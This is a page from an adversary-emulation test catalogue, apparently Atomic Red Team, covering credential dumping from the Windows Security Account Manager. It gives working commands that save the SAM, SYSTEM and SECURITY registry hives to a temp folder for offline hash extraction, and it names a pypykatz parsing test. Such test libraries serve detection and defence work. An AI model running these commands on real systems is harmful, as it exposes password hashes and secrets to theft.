 ```yaml
---
tags: [T1003_002, atomic_test]
filename: "[[T1003.002|T1003.002 - OS Credential Dumping: Security Account Manager]]"
---
```

# T1003.002 - OS Credential Dumping: Security Account Manager

## Atomic Test #1 - Registry dump of SAM, creds, and secrets
Local SAM (SAM & System), cached credentials (System & Security) and LSA secrets (System & Security) can be enumerated
via three registry keys. Then processed locally using https://github.com/Neohapsis/creddump7

Upon successful execution of this test, you will find three files named, sam, system and security in the %temp% directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 5c2571d0-1572-416d-9676-812e64ca9f44






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg save HKLM\sam %temp%\sam
reg save HKLM\system %temp%\system
reg save HKLM\security %temp%\security
```

#### Cleanup Commands:
```cmd
del %temp%\sam >nul 2> nul
del %temp%\system >nul 2> nul
del %temp%\security >nul 2> nul
```





<br/>
<br/>

## Atomic Test #2 - Registry parse with pypykatz
Parses registry hives to obtain stored credentials

**Supported Platforms:** Windows
